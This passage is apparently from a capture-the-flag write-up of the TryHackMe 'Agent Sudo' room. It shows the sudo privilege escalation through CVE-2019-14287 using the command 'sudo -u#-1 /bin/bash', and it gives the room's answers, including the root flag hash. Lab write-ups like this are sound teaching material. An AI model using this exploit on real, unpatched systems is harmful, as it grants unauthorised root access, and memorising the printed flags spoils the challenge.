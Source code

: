 ```
    (ALL, !root) /bin/bash
```
- The users are not allowed to run `/bin/bash` as root.
- if we go to Exploit Database, we can find the CVE for this vulnerability.
![[11 2.png]]
## Answer
```
CVE-2019-14287
```
## Question
> What is the root flag?
- We can also find the exploit for this vulnerability on Exploit Database.
![[12 2.png]]
- Let's enter that in the terminal.
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```
- We have successfully escalated out privilege to root.
- Let's `cat` the root flag.
```
root@agent-sudo:/root# cd /root ; cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```
## Answer
```
b53a02f55b57d4439e3341834d70c062
```
## Question
> (Bonus) Who is Agent R?
- The message was from `Agent R` who is also known as `DesKel`.
## Answer
```
DesKel
```